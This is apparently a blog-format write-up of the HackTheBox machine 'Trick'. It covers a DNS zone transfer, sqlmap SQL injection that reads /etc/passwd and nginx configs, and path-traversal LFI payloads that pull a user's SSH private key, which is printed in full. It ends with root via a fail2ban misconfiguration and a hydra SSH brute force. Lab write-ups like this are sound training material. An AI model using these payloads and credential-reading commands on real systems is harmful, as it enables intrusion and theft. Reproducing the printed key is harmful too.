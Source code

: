 ```yaml
---
layout: post
title: "Trick"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



as always starting with nmap
`sudo nmap -sC -sV -T4 -oN nmap_trick -p- 10.10.11.166`
![[Pasted image 20240619124022.png]]


we got 4 open ports , the 80 hosting a static web page without any interesting functionalities , we can't really do anything with ==SMTP== other than enumerating users .
let's enumerate ==DNS== 

using ==nslookup== we got a domain
![[Pasted image 20240619124718.png]]

I will add it to the ==/etc/hosts== and use it to get more infos from the ==DNS==
using DNS zone transfer we got a new domain 
`dig axfr trick.htb  @10.10.11.166`
![[Pasted image 20240619125242.png]]

looks like a CMS , quick google show us that there's potential ==sqli==
![[Pasted image 20240619125707.png]]

https://www.exploit-db.com/exploits/50802 , the public exploit didn't work , I will use ==sqlmap==

![[Pasted image 20240619130050.png]]

==sqli== confirmed
`sqlmap -r sqltest.txt --dump`
![[Pasted image 20240619130144.png]]

the informations we got from the sqli until now , are not helpful , I tried to get shell but that didn't work , so let's try to read files
`sqlmap -r sqltest.txt --file-read "/etc/passwd"`
![[Pasted image 20240619130532.png]]
we can read files 
![[Pasted image 20240619130623.png]]

try different files but nothing useful , let's try to read the ==nginx== files
` sqlmap -r sqltest.txt --file-read "/etc/nginx/sites-available/default"
`
new vhosts
![[Pasted image 20240619131428.png]]

let's add it to the ==/etc/hosts== 
![[Pasted image 20240619131650.png]]

a potential ==lfi== 
![[Pasted image 20240619131712.png]]

after testing different payloads , we got this 
`...//....//....//....//....//....//....//....//....//etc/passwd
![[Pasted image 20240619131900.png]]

`....//....//....//....//....//....//....//....//....///home/michael/.ssh/id_rsa`

`-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+ 4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/ Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4 1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0 +93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6 IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/ KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0 fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS 3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+ IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ== 
`-----END OPENSSH PRIVATE KEY-----`


PE
`sudo -l`
we can restart the ==fail2ban service== , let's check the configuration files of the service
![[Pasted image 20240619132806.png]]

we have write access over this folder 
![[Pasted image 20240619133027.png]]

 I found this blog and I followed it to get root
 https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7

I will add a malicious code in the ==iptables-multiport.conf== file
![[Pasted image 20240619133547.png]]

and I will restart the ==fail2ban servcie== and bruteforce the ssh to trigger ==the action ban==
` sudo /etc/init.d/fail2ban restart`
![[Pasted image 20240619134109.png]]

` hydra -l idk -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt ssh://10.10.11.166
`
once I will get banned , I will get root 
![[Pasted image 20240619135009.png]]


![[Pasted image 20240619135036.png]]